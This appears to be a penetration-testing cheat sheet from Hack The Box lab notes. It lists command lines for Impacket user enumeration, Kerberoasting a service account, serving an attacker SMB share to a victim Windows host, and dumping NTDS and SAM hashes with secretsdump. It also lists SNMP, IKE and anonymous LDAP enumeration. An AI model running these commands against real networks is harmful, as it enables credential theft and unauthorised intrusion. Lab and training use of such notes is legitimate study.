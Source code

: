 



### IMpacket ####

```bash
1. GetADUsers.py -all active.htb/SVC_TGS -dc <ip>


2. We user below command to kerberost admin password 

GetUserSPNs.py -request -dc-ip <ip> active.htb/SVC_TGS -save -outputfile GetUserSPNs.out


3. SMB Server 
 1. impacket-smbserver <name> $(pwd) -smb2support # Attacker machine

  2. New-PSDrive -name <folder name -PSProvider "FileSystem" -Root "\\<IP>\<folder name> # At victimes windows poweshell propmt  machine 


 3. impacket-secretsdump -ntds ntds.dit -system SYSTEM LOCAL  #To dump the SAM Hashes

```
 
-------------------------------------------------------------------------------------------------------------------------------





# SNMP ###
```bash 
1. snmpwalk -c public -v2c <ip>

2. snmp-check <ip>
```


-------------------------------------------------------------------------------------------------------------------------------


# IKE scan 


1. `ike-scan -M <ip>`



-------------------------------------------------------------------------------------------------------------------------------
# ldap search ### 


 ```bash
   1. ldapsearch -h <ip> -x 
   2. ldapsearch -h <ip> -x -s base namingcontexts


1. ldapsearch -h <ip> -x  -b "DC=htb,DC=local" > ldapannymous.out
   2. ldapsearch -h <ip> -x  -b "DC=htb,DC=local" '(objectClass=Person)' sAMAccountName
   3. ldapsearch -h <ip> -x  -b "DC=htb,DC=local" '(objectClass=Person)' sAMAccountName | grep sAMAccountName | awk '{print $2}' > userlist.ldap
```
-------------------------------------------------------------------------------------------------------------------------------
